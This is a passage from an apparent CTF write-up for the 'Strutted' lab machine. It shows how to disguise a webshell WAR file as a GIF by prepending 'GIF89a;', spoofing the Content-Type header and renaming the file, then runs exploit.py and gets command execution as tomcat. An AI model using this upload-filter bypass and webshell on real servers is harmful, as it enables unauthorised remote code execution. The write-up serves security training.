 **2️⃣ Prep your WAR file as a GIF polyglot**

- To bypass file-type filters on the upload functionality, you convert your WAR shell into a **GIF polyglot**.
    
- A polyglot file can satisfy multiple file format signatures, tricking the upload filter to accept your WAR file as a GIF while still executing as a WAR on the server.
    
- You do this by prepending the GIF signature `GIF89a;` to your WAR file content:
    
    ```python
    war_file_content = open(NAME_OF_WEBSHELL_WAR, "rb").read()
    war_file_content = b"GIF89a;" + war_file_content
    ```
    {: .nolineno}
- **Why it works:** The filter sees `GIF89a` and allows the upload, but the server’s Java engine will still process the underlying WAR structure.
 
**3️⃣ Modify upload headers and file naming**

- To complete the bypass:
    
    - Change your HTTP upload **Content-Type** header from:
        
        ```
        application/octet-stream
        ```
        
        to:
        
        ```
        image/gif
        ```
        
    - Rename your uploaded file to use a `.gif` extension to match the declared content type (helps bypass filters relying on extensions).
        
- Your upload code will look like:
    
    ```python
HTTP_UPLOAD_PARAM_NAME.capitalize(): ("filename.gif", war_file_content, "image/gif")
    ```
    {: .nolineno}
- This ensures:
    
    - The upload filter accepts your file thinking it’s a GIF.
        
    - The server stores it in the correct location.
        
    - The Java server will later parse and execute the WAR payload inside, granting you shell access.

Now lets run this modified exploit with the upload path 🔻

```bash
└─$ python3 exploit.py --url http://strutted.htb/upload.action
[+] Starting exploitation...
[+] WAR file already exists.
[+] webshell.war uploaded successfully.
[+] Reach the JSP webshell at http://strutted.htb/webshell/webshell.jsp?cmd=<COMMAND>
[+] Attempting a connection with webshell.
[+] Successfully connected to the web shell.
CMD > whoami
tomcat
CMD > id
uid=998(tomcat) gid=998(tomcat) groups=998(tomcat)
CMD > pwd 
/var/lib/tomcat9
CMD > ls -al
total 20
drwxr-xr-x  5 root   root   4096 Jul 10 04:01 .
drwxr-xr-x 41 root   root   4096 Jan 15 14:30 ..
lrwxrwxrwx  1 root   root     12 Jul 20  2022 conf -> /etc/tomcat9
```